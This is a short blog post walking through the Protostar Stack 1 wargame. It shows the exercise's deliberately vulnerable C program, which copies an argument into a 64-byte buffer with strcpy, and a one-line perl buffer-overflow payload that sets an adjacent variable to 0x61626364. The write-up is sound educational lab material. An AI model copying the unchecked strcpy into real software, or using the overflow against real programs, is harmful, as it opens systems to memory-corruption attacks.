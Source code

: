 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 1"
date: 2011-12-13T06:12:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


[This](http://exploit-exercises.com/protostar/stack1) challenge is very similar to the previous one.  The main difference is that instead of just validating that the "modified" value was changed, it validates that it was changed to a specific value, 0x61626364, or "dcba" in ASCII.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```

To complete this, we simply run:

```
user@protostar:/opt/protostar/bin$ ./stack1 `perl -e 'print "A"x64 . "dcba"'`
you have correctly got the variable to the right value
```

This will fill up the "buffer" with 64 "A"s, and overflow "dcba" into the "modified" variable.
